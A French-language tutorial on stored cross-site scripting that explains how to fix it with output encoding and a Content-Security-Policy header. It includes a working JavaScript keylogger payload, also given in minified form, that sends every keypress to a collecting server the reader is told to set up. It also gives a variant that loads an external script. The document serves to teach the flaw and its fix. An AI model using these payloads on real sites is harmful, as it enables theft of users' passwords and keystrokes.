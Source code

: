 # Injection JS


## Explication de la faille


Dans certains sites il est possible de laisser des messages que tout le monde va pouvoir afficher. Cependant dans certain cas, ces messages son afficher directement dans le code HTML sans aucune sécurité. Il sera alors possible par le biais des balises `<script>` de placer du code JavaScript du côté client.
Par exemple le bout de code suivant permet de mettre du côté client un keylogger qui va envoyer en temps réel toutes les touches sur lequel aura appuyé, donc potentiellement ses mots de passe.


```html
<script>
const userID = Math.round(Math.random() * 1000000);
document.getElementsByTagName("html")[0].onkeypress = (e) => {
var l = e.which || e.keyCode;
var http = new XMLHttpRequest();
http.open("GET", `http://127.0.0.1:8081/${userID}?l=${l}`, true);
http.send();
}
</script>
```


Voici une version de ce même script obfuscer afin de le faire passer dans des champs plus courts.
```html
<script>var u=Math.round(Math.random()*1000000);document.getElementsByTagName("html")[0].onkeypress=(e)=>{var h=new XMLHttpRequest();h.open("GET",`http://127.0.0.1:8081/${u}?l=${(e.which||e.keyCode)}`,true);h.send()}</script>
```


Dans les deux cas, il faudra remplacer l'URL `127.0.0.1` par l'URL du serveur que vous utiliserez pour l'espionnage du client.


Une variante de l'attaque serait d'injecter une balise script faisant référence à une ressource externe.
```html
<script type="application/javascript" src="http://mon-cdn.com"></script>
```


## Explication du correctif


Pour corriger cette faille, il faut utiliser la fonctionnalité PHP `htmlspecialchars($variable, ENT_QUOTES)` (ou équivalent dans le langage utilisé) qui va encoder les caractères qui pourraient être interprétés dans le DOM afin qu'il ne le soit pas.


Dans le cas ou un utilisateur arriverait quand même à injecter du code, une bonne pratique consiste à limiter les ressources que la page peut importer. Pour ce faire il faut modifier l'entête de la réponse HTTP contenant la page.


```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'" />
<meta http-equiv="X-XSS-Protection" content="1;mode=block" />
```

